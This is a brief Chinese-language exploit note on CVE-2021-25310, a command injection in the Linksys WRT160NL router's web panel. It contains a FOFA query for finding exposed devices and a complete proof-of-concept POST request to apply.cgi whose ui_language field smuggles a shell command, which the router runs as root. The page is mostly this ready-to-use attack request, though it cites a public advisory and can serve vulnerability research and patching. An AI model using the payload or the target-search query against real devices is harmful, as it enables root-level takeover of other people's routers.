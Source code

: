 # Linksys WRT160NL 身份验证命令注入（CVE-2021-25310）

FOFA:

```
app="LINKSYS-WRT160NL"
```

成功利用此漏洞可能导致在受影响的设备上远程执行代码。

管理Web面板允许用户更改UI语言，以将POST请求发送到apply.cgi。该参数在内部作为系统命令中文件系统路径的一部分。缺少输出编码和输入验证，使经过身份验证的攻击者能够注入将以root特权执行系统命令。

PoC：

```bash
POST /apply.cgi;session_id=8e780f3bcc71e19a37cc3e60a5576241 HTTP/1.1
Host: 192.168.1.150
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 854
Origin: http://192.168.1.150
Connection: close
Referer: http://192.168.1.150/index.asp;session_id=8e780f3bcc71e19a37cc3e60a5576241
Upgrade-Insecure-Requests: 1

pptp_dhcp=0&(...)&ui_language=es||ls>/tmp/b||&(...)
```

ref：

* https://research.nccgroup.com/2021/01/28/technical-advisory-linksys-wrt160nl-authenticated-command-injection-cve-2021-25310/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-25310
* https://forum.ywhack.com/thread-115065-1-1.html